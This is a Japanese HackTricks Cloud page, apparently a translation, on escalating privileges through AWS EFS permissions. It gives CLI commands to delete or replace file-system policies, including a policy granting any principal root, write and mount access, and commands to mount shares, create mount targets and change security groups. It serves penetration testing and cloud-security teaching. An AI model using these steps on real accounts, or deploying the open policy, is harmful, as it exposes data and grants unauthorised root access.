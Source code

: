 # AWS - EFS Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## EFS

EFSに関する**詳細情報**は以下にあります：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFSをマウントするには、EFSが公開されているサブネットワークにいる必要があり、アクセス権（セキュリティグループ）が必要です。これが発生している場合、デフォルトでは常にマウントできるはずですが、IAMポリシーによって保護されている場合は、アクセスするためにここで言及されている追加の権限が必要です。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

これらの権限のいずれかを持つ攻撃者は、**ファイルシステムポリシーを変更して**、**アクセスを与える**ことができるか、単に**削除して**、**デフォルトのアクセス**を付与することができます。

ポリシーを削除するには：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
変更するには：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

この権限を持つ攻撃者は**EFSをマウント**することができます。もし書き込み権限がデフォルトでEFSをマウントできるすべての人に与えられていない場合、彼は**読み取りアクセス**のみを持つことになります。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
`elasticfilesystem:ClientRootAccess` と `elasticfilesystem:ClientWrite` の追加権限は、マウントされた後にファイルシステム内に **書き込む** ことと、そのファイルシステムに **root** として **アクセス** するために使用できます。

**潜在的な影響:** ファイルシステム内の機密情報を特定することによる間接的な特権昇格。

### `elasticfilesystem:CreateMountTarget`

攻撃者が **マウントターゲット** が存在しない **サブネット** 内にいる場合、彼はこの権限を使って **自分のサブネット** にマウントターゲットを **作成** することができます。
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

攻撃者がEFSのマウントターゲットが自分のサブネット内にあることを発見し、**トラフィックを許可するセキュリティグループがない場合**、彼は単に**選択したセキュリティグループを変更することができる**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

